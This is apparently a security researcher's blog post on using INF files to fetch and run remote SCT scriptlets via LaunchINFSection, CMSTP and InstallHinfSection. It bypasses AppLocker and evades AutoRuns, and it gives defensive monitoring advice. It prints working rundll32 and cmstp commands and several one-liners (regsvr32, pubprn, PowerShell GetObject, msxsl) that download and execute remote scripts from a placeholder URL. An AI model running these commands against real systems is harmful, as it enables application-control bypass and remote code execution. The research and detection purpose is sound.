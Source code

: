 # Leveraging INF-SCT Fetch & Execute Techniques For Bypass Applocker, Evasion, & Persistence

### Introduction

Over the last few weeks, I researched and tested a few interesting namespaces/methods documented on various Microsoft/MSDN sources that dealt with executing various COM scripts/scriptlets (e.g. VBscript, Jscript, etc.).  In particular, I was curious to see if there were potentially new ways to invoke remote scripts (ActiveX Objects) by leveraging some of the great research already performed and documented by [@subTee](https://twitter.com/subTee), [@Oddvarmoe](https://twitter.com/Oddvarmoe), [@ItsReallyNick](https://twitter.com/ItsReallyNick), [@KyleHanslovan](https://twitter.com/KyleHanslovan), [@ChrisBisnett](https://twitter.com/chrisbisnett), and [@NickTyrer](https://twitter.com/NickTyrer).  There were some interesting findings, but the one that really stood out was the discovery of **LaunchINFSection**, a ‘new’ method to remotely launch staged SCT files configured within INF files.

In this post, we’ll discuss several known INF-SCT launch methods, introduce LaunchINFSection, and dive into use cases/defensive considerations.  Additionally, we’ll reference other techniques for remote script/scriptlet execution.

### INF-SCT Launch Methods

Methods for launching script component files (‘.sct’) via INF configuration files include InstallHinfSection (setupapi.dll), CMSTP, and LaunchINFSection (advpack.dll).  Let’s dive in…

**Malicious INF-SCT Usage with InstallHinfSection**

At [DerbyCon](https://twitter.com/DerbyCon) 2017, @KyleHanslovan and @ChrisBisnett of [@HuntressLabs](https://twitter.com/HuntressLabs) presented a very interesting topic – [Evading AutoRuns](https://github.com/huntresslabs/evading-autoruns/blob/master/Evading\_Autoruns\_Slides.pdf).  In their presentation, they showcase a method for launching remote SCT via INF by invoking  InstallHinfSection with the following command:

```
rundll32.exe setupapi.dll,InstallHinfSection DefaultInstall 128 [path to file.inf]
```

Within the [source](https://raw.githubusercontent.com/huntresslabs/evading-autoruns/master/shady.inf) INF file used for remote SCT execution, ‘rundll32.exe setupapi.dll,InstallHinfSection’ calls the default INF section (‘DefaultInstall’).  Under this section, the Unregister DLLs directive (UnregisterDlls) calls the ‘Squiblydoo’ section to perform the ‘malicious’ action of invoking scrobj.dll to fetch and run the SCT script file.

**Malicious INF-SCT Usage With CMSTP**

About a month ago, @NickTyrer demonstrated on [Twitter](https://twitter.com/NickTyrer/status/958450014111633408) that INF files could be used to fetch SCT files from web resources to execute COM scripts/scriptlets using **cmstp.exe**, a utility that had been documented by @Oddvarmoe to [bypass](https://msitpros.com/?p=3960) UAC and AppLocker default policies.  For reference, basic usage for cmstp.exe is as follows:

```
cmstp.exe /s [file].inf
```

Within the [source](https://twitter.com/NickTyrer/status/958450014111633408) INF file used for remote SCT execution, cmstp.exe calls the INF section named ‘DefaultInstall\_SingleUser’.  Under this section, the OCX unregister directive (UnRegisterOCX) calls the ‘UnRegisterOCXSection’ section to perform the ‘malicious’ action of invoking scrobj.dll to fetch and run the SCT script file.

**Malicious INF/SCT Usage With LaunchINFSection**

According to Microsoft [documentation](https://docs.microsoft.com/en-us/previous-versions/windows/internet-explorer/ie-developer/platform-apis/gg441316\(v=vs.85\)), LaunchINFSection is a method within the Advanced INF Package Installer (advpack.dll) that is used to invoke a particular section within a setup information (.inf) file.  In the administrative sense, INF files are typically used as an instruction file for the installation of device drivers and/or Windows Cabinet (.cab) files, which may include registering Windows binaries (exe, dll, ocx), adding keys to the registry, and/or specifying critical parameter settings.  The general method for LaunchINFSection invocation is as follows:

```
rundll32.exe advpack.dll,LaunchINFSection [file].inf,[INF Section],[Path to Cab].cab,[Installation Flags]
```

If the \[INF Section] is not specified, LaunchINFSection will attempt to call **DefaultInstall** for the default section.  Additionally, it is worth noting that the Advanced INF Package Installer also contains the function **LaunchINFSectionEx** as well as other character set comparability functions (e.g. LaunchINFSectionA), which effectively do the same thing as LaunchINFSection.

For proof of concept, we can simply [modify](https://gist.githubusercontent.com/bohops/693dd4d5dbfb500f1c3ace02622d5d34/raw/902ed953a9188b27e91c199b465cddf855c7b94f/test.inf) the INF file used by @NickTyrer with a staged SCT script payload found [here](https://gist.githubusercontent.com/bohops/6ded40c4989c673f2e30b9a6c1985019/raw/33dc4cae00a10eb86c02b561b1c832df6de40ef6/test.sct) (big shout out to @subTee and [@redcanaryco](https://twitter.com/redcanaryco) for providing their AtomicRedTeam scripts and many useful test payloads to the community). Let’s download the modified INF to the ‘target’ (test.inf) and invoke LaunchINFSection (using a placeholder value of ‘1’ for our non-existant cab file) with the following command:

```
rundll32.exe advpack.dll,LaunchINFSection test.inf,DefaultInstall_SingleUser,1,
```

As shown in the following screenshot, our INF-SCT-Calc Scriptet payload was successfully launched:

![LaunchInfSection](https://bohops.files.wordpress.com/2018/02/launchinfsection.png?w=756)

Take note that we can also launch our payload in other, slightly different ways.  If we change the INF file entry point section to ‘DefaultInstall’, we can launch our payload without section specification using the following command:

```
rundll32.exe advpack.dll,LaunchINFSection test.inf,,1,
```

The same payload is successfully launched:

![LaunchInfSection2](https://bohops.files.wordpress.com/2018/02/launchinfsection2.png?w=756)

Additionally, we can change the OCX unregister directive to a register directive (‘RegisterOCXs’) and supply a random name (e.g. ‘MoreFun’) to invoke the same payload:

![LaunchInfSection3](https://bohops.files.wordpress.com/2018/02/launchinfsection3.png?w=756)

### Some Use Cases & Defensive Considerations

In addition to the environmental considerations above, defenders should keep an eye out for these:

**Malware**

In the wild, actors have leveraged malware INF payloads.  @ItsReallyNick discovered several [malware samples](https://twitter.com/ItsReallyNick/status/958789644165894146) that actually took advantage of @NickTyrer’s CMSTP technique a few years ago.  Other samples show malware from the early 2000s that appear to take advantage of more native administrative techniques using LaunchINFSection without INF-SCT execution.

![LaunchInfSectionMalware](https://bohops.files.wordpress.com/2018/02/launchinfsectionmalware.png?w=756)

![LaunchInfSectionMalware2](https://bohops.files.wordpress.com/2018/02/launchinfsectionmalware2.png?w=756)

**Bypass, Evasion, & Persistence**

In addition to [bypassing](https://msitpros.com/?p=3960) Operating System security controls such as Application Whitelisting and User Account Control, CMSTP can be used for AutoRuns evasion and persistence.  Here is a screenshot that does not show CMSTP when the ‘Hide Windows Entries’ flag is enabled within AutoRuns:

![cmstp\_autoruns1](https://bohops.files.wordpress.com/2018/02/cmstp\_autoruns1.png?w=756)

Here is a screenshot with CMSTP present without any filtering:

![cmstp\_autoruns2](https://bohops.files.wordpress.com/2018/02/cmstp\_autoruns2.png?w=756)

\*Note: LaunchINFSection and InstallHinfSection do not appear to be evasive candidates for (newer) versions of AutoRuns because these methods rely on rundll32.exe to invoke the respective dll.  These methods are not filtered after hiding Windows and Microsoft entries.  However, LaunchINFSection proves to be a valid application whitelisting bypass technique as we were able to “gain code execution” against [default](https://oddvar.moe/2017/12/13/applocker-case-study-how-insecure-is-it-really-part-1/) AppLocker rules.

**On the Network**

Hopefully, network analysis is still important these days.  Here is a sample GET request invoked by scrobj.dll to fetch a fake SCT file:

![get\_request](https://bohops.files.wordpress.com/2018/02/get\_request.png?w=756)

Take note of the User-Agent.  Interestingly enough, I have seen this with other Microsoft utilities that have the ability to perform such requests.  These days, it may be worth treating anything that remote fetches with scrutiny (I know – easier said than done).

**Arbitrary File Names**

**Now for a kicker** – SCT files are merely text/XML files and INF files are text files.  In my basic testing, these files **do not need a proper extension for invocation**.  In this example, we call ‘test.notinf’ and ‘test.notsct’ to successfully execute our ‘sct’ payload:

![notsct](https://bohops.files.wordpress.com/2018/02/notsct1.png?w=756)

**Other Considerations**

\*Host Monitoring is essential.  If budget is a constraint, consider using [Sysmon](https://docs.microsoft.com/en-us/sysinternals/downloads/sysmon) (free) to feed your ([open-source](https://wazuh.com/)) SIEM.  Monitor for the introduction of new “.inf” files within the environment and execution of such files with the methods described above.

\*Application Whitelisting is still essential.  Default AppLocker rules are pretty much based on path constraints.  As I previously [blogged](https://bohops.com/2018/01/23/loading-alternate-data-stream-ads-dll-cpl-binaries-to-bypass-applocker/) about, some of these paths do allow users to write to sub-directories in sensitive hierarchical paths.  Ensure these paths are locked down.  This will at least help protect against a subset of execution techniques (and hopefully alert you when an event is triggered).

\*INF execution is not the only way to invoke ‘sct’ scripts.  I will blog about other methods in greater detail down the road (including some ‘new’ techniques), but here is a quick rundown of a few of them:

**RegSvr32/Scrobj.dll** \[[Reference](https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Execution/Regsvr32.md)]

```
regsvr32 /s /n /u /i:http://url/file.sct scrobj.dll
```

**PubPrn** \[[Reference](https://enigma0x3.net/2017/08/03/wsh-injection-a-case-study/)]

```
pubprn.vbs 127.0.0.1 script:http://url/file.sct
```

**Microsoft.JScript.Eval Assembly via PowerShell** \[[Reference](https://twitter.com/bohops/status/965085651199840258)]

```
[Reflection.Assembly]::LoadWithPartialName('Microsoft.JScript');[Microsoft.JScript.Eval]::JScriptEvaluate('GetObject("script:http://url/file.sct").Exec()',[Microsoft.JScript.Vsa.VsaEngine]::CreateEngine())
```

**Microsoft.VisualBasic.Interaction Assembly via PowerShell** \[[Reference](https://twitter.com/bohops/status/965670898379476993)]

```
[Reflection.Assembly]::LoadWithPartialName('Microsoft.VisualBasic');[Microsoft.VisualBasic.Interaction]::GetObject('script:http://url/file.sct').Exec(0)
```

\*It is also worth noting that ‘sct’ is not the only player in the game.  Here are a few other ‘remote’ XML/XSLT techniques that need to be monitored:

**MsXSL** \[[Reference](https://github.com/3gstudent/Use-msxsl-to-bypass-AppLocker)]

```
msxsl.exe http://url/file.xml http://url/file.xsl
```

**System.Xml.Xsl.XslCompiledTransform Assembly via PowerShell** \[[Reference](https://twitter.com/bohops/status/966172175555284992)]

```
$s=New-Object System.Xml.Xsl.XsltSettings;$r=New-Object System.Xml.XmlUrlResolver;$s.EnableScript=1;$x=New-Object System.Xml.Xsl.XslCompiledTransform;$x.Load('http://url/file.xsl',$s,$r);$x.Transform('http://url/file.xml','z');del z;
```

### Conclusion

Thank you for taking the time to read this blog post.  I will add content as I learn more and/or capture greater insight from the community.  If you have questions/comments/or notice that I left out anything important, send me an email through the \[contact]
